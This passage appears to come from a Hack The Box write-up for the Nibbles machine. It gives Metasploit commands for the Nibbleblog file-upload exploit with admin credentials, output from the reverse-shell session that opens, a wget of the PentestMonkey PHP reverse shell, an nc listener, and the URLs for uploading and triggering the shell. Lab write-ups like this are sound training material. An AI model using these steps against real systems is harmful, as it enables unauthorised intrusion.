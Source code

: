 ```
use exploit/multi/http/nibbleblog_file_upload
set payload generic/shell_reverse_tcp
```

I then need to know what options are required to use this exploit and set those options. The RHOSTS is the IP for your HTB box and the LHOST is the IP address given to your machine for HTB. You can find that with sudo ifconfig and finding the IP address assigned for tun0, but you can just set tun0 for the LHOST to save some time. The LPORT can be any port that is not already in use.

```
show options
set TARGETURI /nibbleblog
set RHOSTS 10.10.10.75
set USERNAME admin
set PASSWORD nibbles
set LHOST tun0
set LPORT 1234
exploit
```
The connection succeeded

[*] Started reverse TCP handler on 10.10.14.31:4444 
[*] Command shell session 1 opened (10.10.14.31:4444 -> 10.10.10.75:49290) at 2021-07-04 23:06:34 -0400
[+] Deleted image.php

Now that I am in I check who I am and list the contents of my user's home directory where I find the user flag.

```
id
ls ~
personal.zip user.txt
cat ~/user.txt
```
I could continue in Metasploit, but I'm going to switch to using a reverse shell instead for the privilege escalation.

Press Ctrl+C and type y to about the Meterpreter session.

## Popping a shell

For PHP, my go to reverse shell script is The PentestMonkey PHP Reverse Shell. You can download it with wget at the URL for the raw script file on Github.

`wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php`

I update the IP address and port on the script and then use that same port for the netcat listener. 

`nc -lvnp 1234`

It's time to upload our reverse shell via the admin control panel. I go to follow the instructions from the CVE POC:
1. Go to http://10.10.10.75/nibbleblog/admin.php?controller=plugins&action=config&plugin=my_image
2. Upload php-reverse-shell.php
3. Go to http://10.10.10.75/nibbleblog/content/private/plugins/my_image/image.php
